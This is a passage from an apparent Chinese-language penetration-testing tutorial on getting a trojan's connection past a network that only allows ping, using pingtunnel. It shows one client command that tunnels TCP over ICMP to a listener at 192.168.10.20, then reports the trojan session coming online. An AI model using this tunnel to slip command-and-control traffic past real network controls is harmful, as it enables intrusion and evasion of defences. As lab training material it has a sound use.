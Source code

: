 到这里我们通过上述的操作就可以正式的测试了，我们先来看看环境有没有变化，是否还是只能ping通百度，无法访问百度。通过测试可以看到还是这个状态。

![image-20230516121054222](https://s2.loli.net/2023/05/16/zMO8s5DKqSTAmCf.png)

#### 目标主机测试

这里我们就还是和MSF操作一样，运行工具，然后运行木马。

```
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.10.20 -t 192.168.10.20:6666 -tcp 1 -noprint 1 -nolog 1
```

![image-20230516121335750](https://s2.loli.net/2023/05/16/Z4N1zrfLBijW3Vh.png)

#### 查看转发情况

可以看到成功转发。

![image-20230516121356884](https://s2.loli.net/2023/05/16/LMj6YzosdqP9Zin.png)

#### 查看上线情况

这里我们也可以看到成功上线了。

![image-20230516121418516](https://s2.loli.net/2023/05/16/XIzgQADe8Jo6rP9.png)

# 总结

在域中还有很多的绕过的方式，但是不可能都写出来，而且水平有限，也是在学习的，后续还是会有很多内网方面的内容。
